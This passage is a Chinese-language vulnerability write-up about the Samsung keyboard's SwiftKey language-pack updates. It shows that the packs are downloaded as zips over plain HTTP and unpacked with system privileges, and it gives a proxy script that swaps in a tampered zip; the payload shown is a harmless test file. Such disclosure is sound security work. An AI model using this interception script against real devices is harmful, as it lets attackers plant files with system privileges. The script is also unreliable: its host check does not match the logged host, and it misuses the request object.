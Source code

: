 Discovery of the Vulnerability
------------------------------

* * *

Swift输入法有一个升级功能可以添加一个新的语言包到现在有的语言中.当用户下载新的语言包的时候.会进行如下请求:

```
GET http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/az_AZ.zip
              ← 200 application/zip 995.63kB 601ms

```

压缩包下载后会被解压到以下目录:

```
/data/data/com.sec.android.inputmethod/app_SwiftKey/<languagePackAbbrev>/.

```

压缩包内容:

```
root@kltevzw:/data/data/com.sec.android.inputmethod/app_SwiftKey/az_AZ # ls -l
       -rw------- system   system     606366 2015-06-11 15:16 az_AZ_bg_c.lm1
       -rw------- system   system    1524814 2015-06-11 15:16 az_AZ_bg_c.lm3
       -rw------- system   system        413 2015-06-11 15:16 charactermap.json
       -rw------- system   system         36 2015-06-11 15:16 extraData.json
       -rw------- system   system         55 2015-06-11 15:16 punctuation.json

```

可以看出压缩包中的文件是由 system user 写入的.权限很高哦,可以写入很多位置哦.因为压缩包和请求都是明文的,咱们可以尝试去篡改它.

可以通过 wifi 代理完成这个尝试,写了一个脚本来提高效率,脚本作用是当有语言包的请求时进行修改

```
def request(context, flow):
           if not flow.request.host == "kslm.swiftkey.net" or not flow.request.endswith(".zip"):
             return

           resp = HTTPResponse(
               [1, 1], 200, "OK",
               ODictCaseless([["Content-Type", "application/zip"]]),
               "helloworld")

           with open('test_language.zip', 'r') as f:
             payload = f.read()
             resp.content = payload
             resp.headers["Content-Length"] = [len(payload)]

           flow.reply(resp)

```

Payload非常简单,就一个文件

```
➜  /tmp  unzip -l test_keyboard.zip
       Archive:  test_keyboard.zip
         Length     Date   Time    Name
        --------    ----   ----    ----
               6  06-11-15 15:33   test
        --------                   -------
               6                   1 file

```
